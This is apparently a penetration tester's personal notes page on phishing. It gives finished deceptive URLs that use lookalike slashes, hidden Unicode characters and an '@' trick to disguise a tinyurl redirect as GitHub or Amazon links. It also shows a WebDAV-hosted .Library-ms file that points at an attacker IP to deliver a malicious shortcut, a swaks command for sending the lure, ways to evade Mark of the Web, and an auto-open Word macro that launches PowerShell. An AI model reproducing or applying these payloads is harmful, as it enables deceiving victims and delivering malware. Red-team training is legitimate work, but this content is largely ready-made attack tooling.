 ```yaml
---
layout: blank
pagetitle: Phishing
---
```


## Fake Arbitrary Redirect

**Techniques**
- Uses `@` character to tell the browser that everything before the `@` is simply authentication for the following page (an encoded tinyurl site) - I didn't find an arbitrary redirect on github
	- You can't use the `@` technique after a domain AND path have been specified, so specify fake paths using a `/` Unicode lookalike: `∕` (effectively making the TLD in the domain very very long)
	- This lookalike character is a unicode division slash without any numbers (think ⅓)
- You can actually URL encode every single character in a link except for the `/`, so the entire tinyurl link is encoded
- `&` can actually be included without encoding in the authentication information (prior to the `@`), so I included bogus URL parameters from an amazon product link to make it look more realistic (hiding the URL encoded link within)
- For google meets, a link starting with a valid URL (e.g. https://github.com) will be underlined, so I included some hidden unicode characters to break the link

**Broken down**
- `https://` - start of URL
- `U+E0001 U+E0020 U+E007F` - hidden Unicode characters to break link underlining functionality in Google meets
- Used https://embracethered.com/blog/ascii-smuggler.html to encode ` `
- `󠁿github.com` - normal github domain
- `∕praetorian-inc∕Cerebrum∕tree∕main∕Personal%20Spaces∕khael.kugler` - realistic path using fake `∕` character
- `&diff=%75%6E%69%66%69%65%64&uuid=259d9f6c-ea4f-492b-a741-8ca016e53a70&ref=main_1598392` - fake URL parameters used to hide the actual payload
- `@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%33%39%74%7A%72%6A%79%6A` - payload decoding to `tinyurl.com/39tzrjyj`, starting with `@`
- `#&whitespace=ignore&inline=false&workflow=ci-deploy-container-ghcr-ref-main` - more fake parameters, starting with a `#` to not confuse tinyurl's redirection


- When emailing, choose a font that looks good. Menlo is alright, but a bit too code-related

Final payload: `https://󠀁󠀠󠁿github.com∕praetorian-inc∕Cerebrum∕tree∕main∕Personal%20Spaces∕khael.kugler&diff=%75%6E%69%66%69%65%64&uuid=259d9f6c-ea4f-492b-a741-8ca016e53a70&ref=main_1598392@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%33%39%74%7A%72%6A%79%6A#&whitespace=ignore&inline=false&workflow=ci-deploy-container-ghcr-ref-main`

Other example payloads:
`https://github.com∕praetorian-inc∕noseyparker∕releases∕download∕v0.23.0∕secret-noseyparker-v0.23.0-aarch64-apple-darwin.tar.gz&conplccinc=259d9f6c-ea4f-492b-a741-8ca016e53a70ts=abthh8sjiwjcbgqcpkynoq55p8khgag&dasin=B07774L6@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%79%63%38%78%61%66%74%32/&96298722-d186-4e28-b5e9-2ca14f49d977=1`

`https://www.amazon.com∕gp∕product∕B008A0GNA8pr=conplccinc=259d9f6c-ea4f-492b-a741-8ca016e53a70ts=abthh8sjiwjcbgqcpkynoq55p8khgag&dasin=B07774L6TT&plattr=mathplace=priceblockimp@%74%69%6E%79%75%72%6C%2E%63%6F%6D/%79%63%38%78%61%66%74%32?=96298722-d186-4e28-b5e9-2ca14f49d977`

- Can also sort of be used to bypass URL validation
  - Portswigger URL bypass techniques: https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

## Windows 
- Can't send malware directly by email, so we need to get them to download the spreadsheet with macros from a link
  - Also need to "blur" the spreadsheet so victim clicks "Enable Editing" to allow macros
  - Avoid Mark of the Web (MOTW) by putting malware inside 7zip, ISO, IMG
- Windows library files are less well-known and can be equally effective for hosting files
- Executing `.Library-ms` file into executing `.lnk` file
- These files display remote directories like local directories, where we put .lnk file
	- `pip3 install wsgidav` for a WebDAV server to host/serve files
	- usage: `wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root {directory}`  
- config.Library-ms file contents:

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://{kali_IP}</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- Sending a phishing email with the share:
	- `sudo swaks -t {to_email} -t {to_email} --from {from_email} --attach @config.Library-ms --server {mail_server} --body @body.txt --header "Subject: Staging Script" --suppress-data -ap`

## Misc

**Docx Word Macro**
- To make a Word macro that runs on document open, the following will work at a basic level:

```
Sub AutoOpen()

  MyMacro

End Sub
Sub Document_Open()

  MyMacro

End Sub
Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"

End Sub
```